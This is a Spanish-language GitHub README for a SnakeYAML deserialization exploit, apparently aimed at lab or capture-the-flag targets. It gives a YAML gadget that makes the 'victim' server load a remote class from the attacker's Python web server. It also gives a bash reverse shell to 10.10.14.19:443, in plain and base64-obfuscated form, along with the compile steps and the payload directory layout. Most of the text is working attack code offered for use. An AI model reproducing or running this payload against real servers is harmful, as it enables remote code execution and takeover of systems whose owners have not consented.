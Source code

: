 # yaml-parser-payload

Payload para ejecutar una reverse shell en un servidor yaml en java.

Esto lo pondremos en el servidor victima para que nos ejecute nuestro payload  con nuestra r_shell.
```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://my_python_server/"]
  ]]
]
```
![](https://github.com/aquilino/yaml-parser-payload/blob/main/img/parser_web.jpg)
![](https://github.com/aquilino/yaml-parser-payload/blob/main/img/python%20server.jpg)
![](https://github.com/aquilino/yaml-parser-payload/blob/main/img/nc.jpg)

En nuestra terminal compartiremos un server con python para que se conecte nuestra victima hacia nosotros asi cargar el payload.
```bash
sudo python3 -m hhtp.server 80
```
Editaremos nuestro archivo AwesomeScriptEngineFactory.java
y añadiremos nuestra reverse_shell en bash pero codificado en base64 lo codificaremos en esta pagina.
```reverse
bash -i >& /dev/tcp/10.10.14.19/443 0>&1

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xOS80NDMgMD4mMQ==}|{base64,-d}|{bash,-i}
```
in this page encode reverse shell  in base64 http://www.jackson-t.ca/runtime-exec-payloads.html

lo compilamos :
necesitaremos jdk instalado ojo!!!!

------bash console or cmd -----
```bash
javac AwesomeScriptEngineFactory.java
```
Nos generara el archivo 'AwesomeScriptEngineFactory.class'. y lo introduciremos en la carpeta h1dr0.

La estructura del Payload tiene que ser asi para que el servidor haga la peticion y encuetre el archivo. 
```tree
 exploit /
  |-->      META-INF/services/javax.script.ScriptEngineFactory dentro de este archivo escribir esto -> h1dr0.AwesomeScriptEngineFactory/
  |-->      h1dr0/AwesomeScriptEngineFactory.class
```




A tiny project for generating payloads for the SnakeYAML deserialization gadget (taken from https://github.com/mbechler/marshalsec):

thanks @marshalsec.


